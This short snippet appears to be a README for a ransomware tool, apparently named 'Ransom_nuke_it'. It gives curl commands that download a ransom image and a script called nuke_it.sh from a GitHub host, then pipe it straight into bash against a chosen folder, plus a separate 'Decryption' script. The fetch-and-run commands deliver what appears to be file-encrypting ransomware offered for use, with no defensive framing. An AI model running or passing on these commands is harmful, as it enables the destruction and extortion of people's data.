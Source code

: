 Download image and run nuke_it.sh directly
cd /tmp && curl -O https://github.com/sectorxatwork/Ransom_nuke_it/blob/main/Hacked.jpg  && 
curl -O https://raw.githubusercontent.com/sectorxatwork/Ransom_nuke_it/refs/heads/main/nuke_it.sh && bash nuke_it.sh <folder>


Decryption 
curl -O https://raw.githubusercontent.com/sectorxatwork/Ransom_nuke_it/refs/heads/main/cease_fire.sh && bash cease_fire.sh

